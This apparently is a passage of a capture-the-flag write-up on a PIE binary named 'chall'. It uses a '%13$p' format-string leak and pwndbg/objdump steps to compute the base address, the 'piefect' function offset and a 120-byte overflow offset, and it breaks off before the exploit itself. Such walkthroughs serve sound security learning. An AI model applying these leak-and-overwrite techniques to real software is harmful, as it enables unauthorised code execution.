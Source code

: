 Run the following in gdb to check if it is an address in the binary:
1. `break main`
2. `run`
3. `c` - continue
4. `%13$p` - send input to get 13th address in the stack
5. press `CTRL + c` to interrupt the program but keep it running (the program MUST remain running to get addresses that can only be shown at runtime)
5. `x <address>`

```sh
pwndbg> x 0x555555400a49
0x555555400a49 <main+116>:      0x000000b8
```

### Step 2
Alright! Now that we have a leaked address, we can calculate for offset of leaked address:

`PIE - leak address = offset of leaked addr`

```shell
pwndbg> x 0x555555400a49 - 0x555555400000
0xa49:  Cannot access memory at address 0xa49
```

`0xa49` is the offset of the leaked address. To calculate base address:

`leaked address - offset of leaked addr = base address`

### Step 3
With this, we just need to find the offset of `piefect` function.

```shell
objdump -d chall | grep piefect
00000000000008ea <piefect>:
```

### Step 4
Now that we have most of the information we need, we just need to find the offset needed to BOF in `decision` function.

Run the following in pwndbg:
1. `break main`
2. `cyclic 200` - copy the De Bruijin Sequence to find our offset
3. send the payload when it says `Alright! I've made up my mind`.
4. you should see that the `RSP` pointer contains `paaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address of `piefect`.

```shell
pwndbg> cyclic -l paaaaaaa
Finding cyclic pattern of 8 bytes: b'paaaaaaa' (hex: 0x7061616161616161)
Found at offset 120
```

### Crafting our exploit

Leak the address first.
